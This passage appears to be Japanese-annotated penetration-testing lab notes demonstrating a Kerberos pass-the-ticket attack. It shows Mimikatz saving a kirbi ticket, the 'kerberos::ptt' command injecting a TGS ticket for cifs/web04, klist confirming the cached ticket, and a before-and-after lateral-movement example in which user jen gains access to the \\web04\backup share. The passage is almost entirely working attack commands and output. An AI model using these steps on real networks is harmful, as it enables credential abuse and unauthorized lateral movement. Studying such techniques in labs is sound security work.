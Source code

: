 ```
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
```

**TGSチケットを取得したkerberos::pttコマンドで挿入する**

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK


セッション内にチケットが存在することを確認する

PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:


横展開例:


横展開前:
PS C:\Windows\system32> whoami
corp\jen
PS C:\Windows\system32> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
At line:1 char:1
+ ls \\web04\backup
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\web04\backup:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand


横展開後:
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt

```
